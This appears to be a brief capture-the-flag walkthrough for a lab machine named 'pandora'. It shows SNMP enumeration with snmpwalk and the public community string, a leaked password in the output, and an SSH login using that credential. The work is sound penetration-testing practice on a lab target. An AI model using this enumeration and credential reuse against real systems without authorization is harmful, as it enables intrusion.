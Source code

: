 ## Services

### Port 22

We usually skip SSH.

### Port 161

```bash
snmpwalk -v2c -c public $IP 
```

![image.png](image%203.png)

```
1)
Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64

2)
iso.3.6.1.2.1.1.4.0 = STRING: "Daniel"
iso.3.6.1.2.1.1.5.0 = STRING: "pandora"
iso.3.6.1.2.1.1.6.0 = STRING: "Mississippi"
iso.3.6.1.2.1.1.7.0 = INTEGER: 72

3)
daniel -p HotelBabylon23
```

I used this password to get access to the machine with ssh and it worked.

```bash
ssh daniel@$IP
```

I cannot see user.txt with daniel, I need user matt, I used the same password for him but it didn’t work.

![image.png](image%204.png)

I tried running:

```bash
snmpwalk -v2c -c public $IP | grep matt
```

**But nothing was found.**

## Web

### Port 80

Let’s add `pandora.htb` to `etc/hosts` file:

![image.png](image%205.png)

